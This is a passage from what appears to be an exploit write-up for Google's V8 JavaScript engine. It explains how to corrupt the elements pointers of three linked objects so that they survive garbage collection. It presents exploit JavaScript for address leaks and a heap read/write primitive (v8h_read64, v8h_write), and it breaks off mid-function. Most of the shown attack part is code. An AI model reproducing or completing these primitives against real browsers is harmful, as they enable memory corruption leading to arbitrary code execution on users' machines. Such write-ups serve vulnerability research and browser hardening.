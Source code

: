 The following code ensures that the Changer's elements point to the Leaker object, and the Leaker's elements point to the Holder object. Then, the x array, a array, and rwarr array have their length set to 0 for initialization. By initializing the arrays, we prevent the Garbage Collector from detecting the corrupted objects.

```jsx
//create 3 objects
let changer = [1.1,2.2,3.3,4.4,5.5,6.6]
let leaker  = [1.1,2.2,3.3,4.4,5.5,6.6]
let holder  = {p1: 0x1234, p2: 0x1234, p3: 0x1234};

//get addr of objects
let changer_addr = addrof_tmp(changer);
let leaker_addr = addrof_tmp(leaker);
let holder_addr = addrof_tmp(holder);

//corrupt that objects
u32[0] = holder_addr;
u32[1] = 0xc;
let original_leaker_bytes = f64[0];

u32[0] = leaker_addr;
u32[1] = 0xc;

v8h_write64(changer_addr+0x8, f64[0]);
v8h_write64(leaker_addr+0x8, original_leaker_bytes);

//fix the corruption to the objects in Old Space
x.length = 0;
a.length = 0;
rwarr.length = 0;
```

Now, let’s briefly explain how these three objects work. 

Since the Changer object's elements pointer was changed to point to the Leaker object, accessing the Changer's elements array will lead to the Leaker object. 

Therefore, Changer[0] will not be 1.1, but rather correspond to the leaker_obj_addr + size value. Similarly, Leaker[0] will not be 1.1, but will instead point to the Holder object's elements plus in-object property 1.


#### Final Heap Read/Write Primitive
This primitive functions similarly to the initial one, but is now implemented using the objects we created to be resistant to Garbage Collection. 

In the v8h_read64 function, we change the Changer's index 0 to point to the Leaker’s elements, allowing us to read the data at that location. 

The v8h_write function is an extended version of the read function, allowing us to write data to that location as well.

```jsx
function v8h_read64(addr) {
        original_leaker_bytes = changer[0];
        u32[0] = Number(addr)-8;
        u32[1] = 0xc;
        changer[0] = f64[0];

        let ret = leaker[0];
        changer[0] = original_leaker_bytes;
        return f2i(ret);
}

function v8h_write(addr, value) {
        original_leaker_bytes = changer[0];
        u32[0] = Number(addr)-8;
```